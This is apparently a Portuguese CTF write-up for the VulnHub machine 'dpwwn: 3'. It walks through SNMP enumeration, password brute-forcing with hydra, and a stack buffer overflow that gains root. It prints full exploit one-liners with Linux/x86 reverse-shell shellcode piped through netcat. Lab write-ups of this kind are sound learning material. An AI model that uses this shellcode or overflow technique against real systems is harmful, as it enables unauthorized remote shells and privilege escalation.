 ```yaml
---
title: 'VulnHub dpwwn: 3'
excerpt: "Desafio CTF <strong><a href=''>VulnHub dpwwn: 3</a></strong> Realizado para aprendizado sobre conceitos de segurança da informação."
date: 2019-09-04 17:08:43
tags: 
  - Hacking
  - Tutorial
  - Segurança da informação
  - CTF
cover: https://cdn-images-1.medium.com/max/800/1*SnTSI7XJVVSEbtQ_Oov1Vw.png
cover_creditos:
default_cover:
---
```


Hello friends.

### Informações sobre o Alvo.

A flag esta em /root/dpwwn-03-FLAG.txt

### Reconhecimento / Enumeração.

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*SnTSI7XJVVSEbtQ_Oov1Vw.png" alt="">
      <figcaption></figcaption>
    </figure>

netdiscover

O ip do alvo é o 192.168.1.6

Usando “nmap” para lista portas e serviços e verificar se há alguma vulnerabilidade.

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*Ab8IjcenPVBICCGnxHOKIw.png" alt="">
      <figcaption></figcaption>
    </figure>

nmap

Achamos uma porta “snmp” aberta e vamos usar o snmpwalk para verificar se obtemos alguma informação interessante.

> O SnmpWalk permite detectar um conjunto de variáveis ​​disponíveis para leitura em um dispositivo individual. Você pode obter uma lista completa ou apenas parte.

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*3SIG-mlA6i6j1x9dsYRscA.png" alt="">
      <figcaption></figcaption>
    </figure>

snmpwalk

Encontramos algo que nos interessa, um possível usuário “john <john@dpwwn-03>” e também uma dica para a senha “john room”.  
Vamos gerar uma pequena wordlist com o John the Ripper.

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*wccbilWDvcpwo2d8IB0j_A.png" alt="">
      <figcaption></figcaption>
    </figure>

John the Ripper.

Depois de criar a wordlist vamos usar o hydra para testar a wordlist gerada.

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*5b0P3iyh6y1SYVmMlqfTEQ.png" alt="">
      <figcaption></figcaption>
    </figure>

hydra.

Temos um usuário e uma senha valida.

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*kQjBctnF4ruIHw9HK5ynCw.png" alt="">
      <figcaption></figcaption>
    </figure>

ganhado acesso ao servidor.

Podemos executar apenas um comando com “sudo”.

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*9Ef43Gevswev7ZHjVwnUqQ.png" alt="">
      <figcaption></figcaption>
    </figure>

ss.sh

Ao verificar o arquivo “ss.sh” notamos que não podemos modificar o “PATH” e o “SHELL” só nos resta explorar o “smashthestack”.  
Depois de alguns testes conseguimos sobrescrever o endereço de retorno da função “vulncode” o payload esta logo abaixo.

> (python -c ‘print “A”\*732+”B”\*4+”C”\*4’;cat) | nc 127.0.0.1 3210

Para seguir com a exploração tive que abrir 3 terminais, um para o “gdb”, mais um para o “netcat” e outro para enviar o payload.  
Adicionei um **breakpoint** no endereço de retorno da “vulncode”, para depois analisar o que esta acontecendo na pilha.

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*JjBpWOI4_xwDIKKNk8CdWA.png" alt="">
      <figcaption></figcaption>
    </figure>

gdb

Depois de enviar o payload e cair no breakpoint, eu verifiquei que o “0x42424242” são os meus 4 “B” que foi enviado no payload, e tambem que ele esta no topo da pilha, coso eu continue o programa vamos receber um “Segmentation fault” pois não existe o endereço de memória “0x42424242”.

Precisamos agora procurar um shellcode reverso, já que na execução do script “ss.sh” ele executa em background o “smashthestack”.

[**Linux/x86 - Shell Reverse TCP Shellcode - 74 bytes**  
_\* Title: Shell Reverse TCP Shellcode - 74 bytes \* Platform: Linux/x86 \* Date: 2014-07-25 \* Author: Julien Ahrens…_shell-storm.org](http://shell-storm.org/shellcode/files/shellcode-883.php "http://shell-storm.org/shellcode/files/shellcode-883.php")[](http://shell-storm.org/shellcode/files/shellcode-883.php)

O nosso payload teve algumas modificações, 0xbffff220 vai sobrescrever nosso endereço de retorno e apotar para o “\\x90”, os “\\ x90” informam ao programa para passar à próxima instrução até chegar no nosso shellcode de 74 bytes.

> (python -c ‘import struct; print “A”\*732+struct.pack(“<I”, 0xbffff220)+”\\x90"\*20+”\\x6a\\x66\\x58\\x6a\\x01\\x5b\\x31\\xd2\\x52\\x53\\x6  
> a\\x02\\x89\\xe1\\xcd\\x80\\x92\\xb0\\x66\\x68\\x7f\\x01\\x01\\x01\\x66\\x68\\x05\\x39\\x43\\x66\\x53\\x89\\xe1\\x6a\\x10\\x51\\x52\\x89\\xe1\\x43\\xcd\\x80\\x6a\\x02\\x59\\x87\\xda\\xb0\\x3f\\xcd\\x80\\x49\\x79\\xf9\\xb0\\x0b\\x41\\x89\\xca\\x52\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\xcd\\x80"’;cat) | nc 127.0.0.1 3210

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*zVXBE-aoc_lJ483C_JYcgw.png" alt="">
      <figcaption></figcaption>
    </figure>

gdb

Depois de rodar nosso payload, verificamos novamente a pilha e tudo esta como nos planejamos, e damos continuidade a nosso programa.

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*716I4Hg6iMKcuszQNhoxHA.png" alt="">
      <figcaption></figcaption>
    </figure>

netcat.

A nossa shell reversa funciona :)  
Como já era previsto tive que ajustar o endereço de retorno com mais 5 bytes passando o endereço 0xbffff220 para 0xbffff225.

> (python -c ‘import struct; print “A”\*732+struct.pack(“<I”,0xbffff220+5)+”\\x90"\*20+”\\x6a\\x66\\x58\\x6a\\x01\\x5b\\x31\\xd2\\x52\\x53\\x6a\\x02\\x89\\xe1\\xcd\\x80\\x92\\xb0\\x66\\x68\\x7f\\x01\\x01\\x01\\x66\\x68\\x05\\x39\\x43\\x66\\x53\\x89\\xe1\\x6a\\x10\\x51\\x52\\x89\\xe1\\x43\\xcd\\x80\\x6a\\x02\\x59\\x87\\xda\\xb0\\x3f\\xcd\\x80\\x49\\x79\\xf9\\xb0\\x0b\\x41\\x89\\xca\\x52\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\xcd\\x80"’;cat) | nc 127.0.0.1 3210

Vamos executar o programa com “sudo”.

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*xh1Dcr_I160MBOV3vsMiqQ.png" alt="">
      <figcaption></figcaption>
    </figure>

sudo.

Recebemos uma nova conexão, e agora somos root no sistema basta manter o acesso.

<figure class="image">
      <img src="https://cdn-images-1.medium.com/max/800/1*RhifNqHPdRsrIG_wOq0JdQ.png" alt="">
      <figcaption></figcaption>
    </figure>

root

Se você chegou até aqui e não entendeu o que é um payload, breakpoint, shellcode, shell reversa etc. Tem um playlist no [**Papo Binário**](https://www.youtube.com/watch?v=Ps3mZWQz01s&list=PLIfZMtpPYFP4MaQhy_iR8uM0mJEs7P7s3) que pode te ajudar.

Até a próxima.
